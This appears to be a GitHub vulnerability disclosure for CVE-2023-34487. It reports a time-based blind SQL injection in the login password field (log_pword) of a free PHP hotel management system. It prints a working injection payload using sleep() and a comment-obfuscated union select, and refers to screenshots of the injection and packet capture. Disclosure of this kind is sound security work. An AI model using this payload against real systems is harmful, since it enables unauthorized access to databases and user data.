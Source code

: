 # itsourcecode_justines_sql_vul

### Some information

CVE ID: CVE-2023-34487

Vendor of Product: https://itsourcecode.com/

Affected Product: justines(https://itsourcecode.com/free-projects/php-project/hotel-management-system-project-php/) - v1.0.0

Attack Type: Remote

Vulnerability type: SQL injection

Description: itsourcecode Online Hotel Management System Project In PHP v1.0.0 is vulnerable to SQL Injection. SQL injection points exist in the login password input box. This vulnerability can be exploited through time-based blind injection.

Position: "body"

ParamKey: "log_pword"

payload: "1234'and(select*from(select+sleep(5))a/\*\*/union/\*\*/select+1)='"

### Process description

On the justines home page, enter payload in the login password field. The injection is effective.

![sql_1](https://github.com/JunyanYip/itsourcecode_justines_sql_vul/blob/main/sql_1.JPG)

Packet capture data.

![sql_2](https://github.com/JunyanYip/itsourcecode_justines_sql_vul/blob/main/sql_2.JPG)

